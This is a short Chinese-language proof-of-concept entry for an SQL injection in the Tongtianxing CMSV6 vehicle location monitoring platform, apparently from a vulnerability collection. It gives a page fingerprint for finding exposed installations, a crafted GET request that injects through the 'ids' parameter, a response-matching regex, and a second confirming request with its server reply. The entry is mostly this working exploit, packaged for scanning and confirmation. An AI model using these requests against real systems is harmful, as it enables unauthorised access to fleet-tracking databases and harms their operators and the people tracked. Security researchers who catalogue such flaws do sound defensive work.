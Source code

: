 ﻿# 通天星CMSV6车载定位监控平台SQL注入

> 更新时间：2024-04-07

> 漏洞编号：

> 漏洞说明：通天星CMSV6车载定位监控平台未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

> 漏洞特征：body="/808gps/"

> 验证脚本：HTTP

```
GET /run_stop/delete.do;downloadLogger.action?ids=1)&loadAll=1 HTTP/1.1
Connection: close
Accept-Encoding: gzip, deflate, br
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?result)(?=.*?10001).*?$

> 上传文件定位：

> 验证文件来源：通天星CMSV6车载定位监控平台SQL注入.poc

```
进一步POC确认：
GET /run_stop/delete.do;downloadLogger.action?ids=1)--+&loadAll=1 HTTP/1.1
Connection: close
Accept-Encoding: gzip, deflate, br
响应：200，返回值：{"result":0,"message":"OK","data":"","pagination":"","infos":"","key":"","resMap":""}
```